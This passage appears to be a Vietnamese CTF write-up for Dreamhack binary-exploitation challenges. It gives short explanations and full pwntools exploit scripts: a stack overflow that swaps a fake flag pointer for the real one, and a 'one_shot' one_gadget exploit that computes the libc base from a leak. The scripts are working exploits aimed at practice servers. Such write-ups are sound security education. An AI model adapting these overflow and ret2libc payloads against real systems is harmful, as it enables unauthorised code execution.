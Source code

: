 ![image](https://hackmd.io/_uploads/SkKakL_71e.png)


debug :

ta có thể overlow add của fake flag → real_flag

script 

```
#!/usr/bin/python3

from pwn import *
context.binary = exe = ELF('./chall',checksec=False)
#p = process()
p = remote('host3.dreamhack.games', 19794)
p.recvline()
p.recvline()
p.recvuntil(b': ')
leak = p.recvline()[:-1]
#leak = p.recvline(keepends=False)
leak = int(leak,16)
print(hex(leak))
payload =b'a'*48
payload += p64(leak)
p.sendafter(b'input: ',payload)
p.interactive()
```

---------


11 . one_shot
--------

- chỉ là 1 bài one_gadget và được cho libc sẵn

![image](https://hackmd.io/_uploads/rkFblLOQkx.png)

script 

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./oneshot_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe

#p = process(exe.path)
p = remote('host3.dreamhack.games', 13138)
p.recvuntil(b'stdout: ')
leak = (p.recvline()[:-1].decode())
leak = int(leak,16)
print(leak)

libc.address = leak -3954208
print(hex(libc.address))
payload = b'a'*24
payload += p64(0)
payload = payload.ljust(40,b'a')
payload += p64(libc.address+0x45216)
p.send(payload)
p.interactive()
```
